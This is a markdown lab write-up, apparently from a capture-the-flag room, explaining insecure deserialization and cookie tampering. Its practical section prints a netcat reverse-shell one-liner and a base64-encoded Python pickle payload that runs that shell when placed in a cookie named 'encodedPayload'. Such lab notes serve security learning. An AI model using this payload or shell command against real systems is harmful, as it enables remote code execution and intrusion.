# Insecure Deserialization

Insecure Deserialization is a vulnerability that allows attackers abuse an application logic that has no integrity check or validation while fetching data (unstrusted data)
## Objects

Objects in OOP is a representation of thing that has:
1. State
2. Behaviour

## Deserialization

Serialization is a process of converting an object into a simpler form for transmitting between systems or networks for further processing.

Deserialization is a process of reverting the simpler form back into an object but in acceptable form by the recipient systems/apps.

## Cookies

Web apps uses HTTP/S protocol that is stateless, means a web server does not remember things like who the client is. 

Cookies is a piece of data that stores client information and is send along in the http headers which gives the server kind of ability to remember (maintain) his client.

**Cookies attributes**



## Practical

### Cookies

A weak session cookies can be tampered.



Or used for privilege escalation





### Code execution

The weak cookie name to exploit is `encodedPayload`


The core of the payload
```
rm /tmp/f; mkfifo /tmp/f; cat /tmp/f | /bin/sh -i 2>&1 | netcat IP_ADDR 4444 > /tmp/f
```

New value for `encodedPayload` from the encoded payload, malicious one.
```
gASVdAAAAAAAAACMBXBvc2l4lIwGc3lzdGVtlJOUjFlybSAvdG1wL2Y7IG1rZmlmbyAvdG1wL2Y7IGNhdCAvdG1wL2YgfCAvYmluL3NoIC1pIDI+JjEgfCBuZXRjYXQgMTAuOS4zMC4xMTUgNDQ0NCA+IC90bXAvZpSFlFKULg==
```

Once the page reloaded with new value, we'll have a remote shell.






## Questions







